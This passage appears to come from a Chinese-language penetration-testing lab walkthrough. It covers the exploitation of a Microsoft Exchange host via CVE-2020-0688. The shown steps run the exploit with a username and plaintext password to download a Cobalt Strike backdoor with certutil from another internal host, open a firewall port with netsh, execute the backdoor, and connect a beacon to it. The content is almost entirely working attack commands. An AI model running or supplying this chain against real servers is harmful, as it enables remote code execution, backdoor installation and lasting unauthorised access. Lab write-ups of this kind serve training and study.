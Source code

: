 由于 12server-ex13 不出网，我们还是使用 12server-redis 的 cs 的 beacon 来正向连接 12server-ex13

#### 步骤

1、利用 exp 执行命令（windows里运行）

```
// 从 12server-redis 的 80 端口下载 cs 生成的 正向后门
python CVE-2020-0688_EXP.py -s https://10.10.10.209 -u cncat\moonsec -p QQqq5201314 -c "cmd /c certutil -urlcache -split -f http://10.10.10.202/1234.exe C:/Windows/Temp/1234.exe"

// 开启防火墙 1234 端口的放行
python CVE-2020-0688_EXP.py -s https://10.10.10.209 -u cncat\moonsec -p QQqq5201314 -c "cmd /c netsh firewall add portopening tcp 1234 cs"

//执行 cs 的正向后门
python CVE-2020-0688_EXP.py -s https://10.10.10.209 -u cncat\moonsec -p QQqq5201314 -c "cmd /c C:/Windows/Temp/1234.exe"
```

2、上线 cs

用 12server-redis 的 beacon 正向连接 10.10.10.209 的 1234 端口

```
beacon> connect 10.10.10.209 1234
```

<img src=".\图片\Snipaste_2023-05-17_13-02-38.png" alt="Snipaste_2023-05-17_13-02-38" style="zoom:80%;" />
